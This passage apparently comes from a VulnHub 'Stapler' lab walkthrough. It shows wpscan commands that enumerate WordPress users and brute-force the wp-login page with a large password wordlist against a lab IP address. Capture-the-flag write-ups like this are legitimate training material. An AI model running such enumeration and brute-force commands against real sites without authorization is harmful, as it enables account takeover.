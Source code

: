Wordpress Security Scanner alias `wpscan` can help us attack this website.

- Enumerating users:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --enumerate u
```

![Wordpress user](/assets/img/vulnhub/linux/stapler/12380-users.png)

- Bruteforce passwords:

```bash
$ wpscan --url https://192.168.1.106:12380/blogblog/ --disable-tls-checks --password-attack wp-login -U wp-users.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -t 100
```

![user creds](/assets/img/vulnhub/linux/stapler/12380-users-creds.png)
